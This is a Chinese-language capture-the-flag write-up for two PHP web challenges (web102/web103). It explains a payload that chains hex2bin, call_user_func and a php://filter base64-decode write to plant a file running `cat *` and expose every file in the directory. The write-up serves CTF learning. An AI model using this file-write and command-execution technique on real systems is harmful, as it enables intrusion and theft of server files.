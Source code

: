 ```php
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

?>
```
这个题看了wp发现构造的十分巧妙，先看payload：
GET：
/?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=2.php
POST：v1=hex2bin
解释一下这个payload

- v2的这一堆数字是什么意思呢？

第9行中取第二位以后的字符串，所以前面两个11作为填充，使$s为后面5044383959474e6864434171594473，那么第十行就变成了
```php
$str = call_user_func(hex2bin,5044383959474e6864434171594473); 
```
执行后$str为PD89YGNhdCAqYDs，那么第12行就变成
```php
file_put_contents(php://filter/write=convert.base64-decode/resource=2.php,PD89YGNhdCAqYDs);
```
PD89YGNhdCAqYDs经过base64解码是<?=`cat *`; 将当前目录所有文件内容都写入到2.php中，所以执行payload后，加载2.php并右键查看源码，即可看到flag

- 那为什么说他巧妙呢？别的命令为啥不行呢？

因为条件限制，v2必须是数字，虽然这个payload中v2有一个字符e，但是e会被解析成科学计数法，所以php还会将其认为是数字，即条件是满足的。那么如果构造其他命令呢？经过测试，先base64后hex2bin的命令中，很难找到或者压根找不到第二个能满足v2为数字的存在，至少群主大大没找到嘿嘿嘿，其实我也太菜了没找到Orz，所以说它构造巧妙，能解出这个题。
## web103（巧妙的构造）
```php
<?php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```
这次不允许str中出现任何带有php的字符，影响不大，解法同上
payload：
GET：
/?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=2.php
POST：v1=hex2bin
加载2.php后查看源代码即可